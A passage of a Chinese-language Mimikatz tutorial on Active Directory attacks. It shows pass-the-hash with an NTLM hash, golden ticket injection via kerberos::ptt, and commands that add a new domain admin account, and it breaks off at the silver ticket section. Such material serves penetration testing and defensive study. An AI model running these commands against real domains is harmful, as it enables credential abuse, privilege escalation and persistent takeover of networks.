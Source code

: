 ```bash
mimikatz # privilege::debug
mimikatz # sekurlsa::pth /user:test /domain:test.com /ntlm:c5a237b7e9d5f708d8436b2584a25fa1
```

然后可以利用 mimikatz 弹出的 cmd 窗口执行操作

### [kerberos 模块 —— 黄金白银票据](#toc_kerberos_1)

#### [黄金票据](#toc__4)

登录域内普通用户，通过 mimikatz 中的 kerberos::ptt 功能将 golden.kirbi 导入内存中

```bash
mimikatz # kerberos::purge   //清空以前的票据
mimikatz # kerberos::list  //列出票据为空证明已经清空
mimikatz # kerberos::ptt golden.kirbi
```

[![image-20220517194011869.png](assets/1698894253-500e0546d07213f8ab2649997e8e49e7.png)](https://storage.tttang.com/media/attachment/2022/06/17/697a808f-438c-437c-8b87-b437653f68e1.png)

然后尝试创建一个 ccc 的域管账号 命令执行成功

```bash
# net user ccc Qwe123...  /add /domain
# net group "domain admins"  ccc /add /domain
```

[![image-20220517194148042.png](assets/1698894253-81ae87b3e56ee3dc0a45cb2d8ed2b4a8.png)](https://storage.tttang.com/media/attachment/2022/06/17/e5350f64-c0f5-4aa4-928e-6fcc43a0866c.png)

#### [白银票据](#toc__5)

登录域管用户，用管理员权限打开 cmd cd 到 mimikatz 的目录

执行 mimikatz 命令 得到 SID 和 NTLM
